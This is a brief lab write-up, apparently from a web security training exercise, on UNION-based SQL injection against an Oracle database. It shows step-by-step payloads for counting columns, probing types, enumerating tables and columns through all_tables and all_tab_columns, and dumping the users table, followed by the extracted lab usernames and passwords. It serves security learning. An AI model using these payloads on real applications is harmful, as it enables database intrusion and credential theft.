 Lab #10 - SQL injection attack, listing the databse contents on Oracle

End Goals: 
- Determine which table contains the usernames and password
- Determine the column names in table
- Outupt the content of the table
- Login as the administartor user


Analysis:

1) Determine the number of columns
' order by 3 -- -> internal server error

3 - 1 = 2

2) Find data type of columns
' UNION select 'a', 'a' from DUAL --
-> Oracle database
-> both columns accept type text

3) Output the list of tables in the database

' UNION SELECT table_name, NULL FROM all_tables --


' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_SQBVDL' --



USERNAME_STTMKV
PASSWORD_RGKRIS


' UNION SELECT USERNAME_STTMKV,PASSWORD_RGKRIS FROM USERS_SQBVDL --


administrator
cz8adhgki9xbj465g24q
carlos
e2pdtoc250mp9vf1f1tr
wiener
xlj9y4x9auc38lnkocea